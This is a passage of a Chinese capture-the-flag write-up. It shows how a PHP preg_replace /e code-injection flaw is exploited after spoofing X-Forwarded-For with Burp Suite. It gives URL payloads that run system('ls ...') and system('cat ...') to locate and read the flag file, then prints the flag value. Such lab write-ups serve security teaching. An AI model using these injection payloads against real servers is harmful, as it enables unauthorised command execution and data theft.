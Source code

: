 我就用burpsuite了，比较方便。注意X-Forwarded-For记得开头全部大写。从response中可以发现s3chahahaDir这个文件夹很可疑。继续执行命令。

- /index.php?pat=/flag/e&rep=system("ls+s3chahahaDir")&sub=flag

发现flag文件夹。继续往下。使用+号代替空格的原因是符合url编码。

- /index.php?pat=/flag/e&rep=system("ls+s3chahahaDir/flag")&sub=flag

发现flag.php。直接cat就能拿到flag了。

- /index.php?pat=/flag/e&rep=system("cat+s3chahahaDir/flag/flag.php")&sub=flag

- ### Flag
- > cyberpeace{96c585a509c100a7a043fb7f9d4ea085}


